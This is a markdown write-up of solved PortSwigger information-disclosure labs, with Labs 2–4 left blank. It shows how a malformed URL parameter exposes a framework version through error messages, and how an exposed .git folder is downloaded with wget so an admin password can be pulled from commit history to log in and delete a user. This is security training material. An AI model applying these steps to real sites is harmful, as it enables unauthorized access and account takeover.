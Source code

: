 # Information disclosure vulnerabilities

Get details at [here](https://portswigger.net/web-security/information-disclosure)

---

[Lab 1](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages)

Description of this lab: obtain and submit the version number of this framework

Go to any post and modify url with unique symbol like this `example.com/product?productId=!` and it returns a lot of errors and show version of framework `Apache Struts 2 2.3.31`, return homepage and submit with version we found, then solved the lab.

[Lab 2](#)

[Lab 3](#)

[Lab 4](#)

[Lab 5](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)

Description of this lab: obtain the password for the administrator user then log in and delete Carlos's account, exploit version control history

The information of version control history is in folder .git, try to modify url `example.com/.git` and we got a file manager. Using `wget -r` (save data as directory) in Linux distro to get `.git` file. Firstly, use `git status`, we can see that, `admin.conf` and `admin_panel.php`. We need to see old commits. Nextly, use `git log` and it returns this result:

```
    commit 03936237f9151467ed926618e388a2017b88a1e7 (HEAD -> master)
    Author: Carlos Montoya <carlos@evil-user.net>
    Date:   Tue Jun 23 14:05:07 2020 +0000

        Remove admin password from config

    commit 68155dd4dfccb8a580d95b16db1b68d7b963ddc0
    Author: Carlos Montoya <carlos@evil-user.net>
    Date:   Mon Jun 22 16:23:42 2020 +0000

        Add skeleton admin panel
```

Then, see commit `68155dd4dfccb8a580d95b16db1b68d7b963ddc0` with `git show 68155dd4dfccb8a580d95b16db1b68d7b963ddc0`

```
    commit 68155dd4dfccb8a580d95b16db1b68d7b963ddc0
    Author: Carlos Montoya <carlos@evil-user.net>
    Date:   Mon Jun 22 16:23:42 2020 +0000

        Add skeleton admin panel

    diff --git a/admin.conf b/admin.conf
    new file mode 100644
    index 0000000..12f1f74
    --- /dev/null
    +++ b/admin.conf
    @@ -0,0 +1 @@
    +ADMIN_PASSWORD=ghjjaciebqxzptna80o9
    diff --git a/admin_panel.php b/admin_panel.php
    new file mode 100644
    index 0000000..8944e3b
    --- /dev/null
    +++ b/admin_panel.php
    @@ -0,0 +1 @@
    +<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
    \ No newline at end of file
```
This result including admin password `ghjjaciebqxzptna80o9`, log in with this password and delete carlos and solved the lab.